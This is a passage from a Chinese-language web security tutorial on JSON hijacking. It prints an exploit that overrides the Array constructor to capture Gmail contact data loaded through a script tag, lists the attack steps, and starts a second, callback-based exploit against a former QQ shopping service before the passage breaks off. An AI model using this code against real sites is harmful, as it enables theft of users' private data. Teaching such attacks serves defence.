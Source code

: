 <span class="hljs-keyword">var</span> table = <span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'table'</span>);
table.id = <span class="hljs-string">'content'</span>;
table.cellPadding = <span class="hljs-number">3</span>;
table.cellSpacing = <span class="hljs-number">1</span>;
table.border = <span class="hljs-number">0</span>;
<span class="hljs-comment">// 重新定义 Array 构造器</span>
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">Array</span>(<span class="hljs-params"></span>) </span>{
  <span class="hljs-keyword">var</span> obj = <span class="hljs-keyword">this</span>;
  <span class="hljs-keyword">var</span> ind = <span class="hljs-number">0</span>;
  <span class="hljs-keyword">var</span> getNext;

  getNext = <span class="hljs-function"><span class="hljs-keyword">function</span>(<span class="hljs-params">x</span>) </span>{
    obj[ind++] setter = getNext;  <span class="hljs-comment">// 将数组元素的 setter 定义为 getNext 函数</span>
    <span class="hljs-keyword">if</span>(x) {
      <span class="hljs-keyword">var</span> str = x.toString();  <span class="hljs-comment">// 获取 JSON 数据并转换成字符串</span>
      <span class="hljs-keyword">if</span> ((str != <span class="hljs-string">'ct'</span>)&amp;&amp;(<span class="hljs-keyword">typeof</span> x != <span class="hljs-string">'object'</span>)&amp;&amp;(str.match(<span class="hljs-regexp">/@/</span>))) {
        <span class="hljs-keyword">var</span> row = table.insertRow(<span class="hljs-number">-1</span>); <span class="hljs-comment">// 指定行尾部</span>
        <span class="hljs-keyword">var</span> td = row.insertCell(<span class="hljs-number">-1</span>);  <span class="hljs-comment">// 指定列尾部</span>
        td.innerHTML = str;  <span class="hljs-comment">// 插入到表格中</span>
      }
    }
  };
  <span class="hljs-keyword">this</span>[ind++] setter = getNext;
}
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">readGMail</span>(<span class="hljs-params"></span>) </span>{
  <span class="hljs-built_in">document</span>.body.appendChild(table);
}
&lt;/scirpt&gt;
<span class="xml"><span class="hljs-tag">&lt;<span class="hljs-name">script</span> <span class="hljs-attr">src</span>=<span class="hljs-string">"http://mail.google.com/mail/?_url_scrubbed_"</span>&gt;</span></span></span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
</code></pre>
<p data-nodeid="56076">从以上代码中我们可以总结整个攻击流程：</p>
<ol data-nodeid="56077">
<li data-nodeid="56078">
<p data-nodeid="56079">通过<code data-backticks="1" data-nodeid="56205">&lt;script&gt;</code>加载目标 JSON 对象到页面中；</p>
</li>
<li data-nodeid="56080">
<p data-nodeid="56081">覆写 Array 对象，并设置数组元素的 setter 为 getNext 函数，有时也可以使用 Object.prototype.__defineSetter__来覆盖 setter；</p>
</li>
<li data-nodeid="56082">
<p data-nodeid="56083">getNext 函数读取包含联系人信息的 JSON 信息。</p>
</li>
</ol>
<h4 data-nodeid="56084">执行回调函数</h4>
<p data-nodeid="56085">不同域名之间传递数据时，无法通过 JavaScript 直接跨域访问，因此需要在访问脚本的请求中指定一个回调函数，用于处理 JSON 数据。正因如此，攻击者也可以利用它来劫持其他域返回的数据。这种攻击方式是当前 JSON 劫持中最为常见的方式。</p>
<p data-nodeid="56086">以前的 QQ 网购就曾出现过这种 JSON 劫持漏洞，其利用代码如下：</p>
<pre class="lang-xml" data-nodeid="56087"><code data-language="xml"><span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript">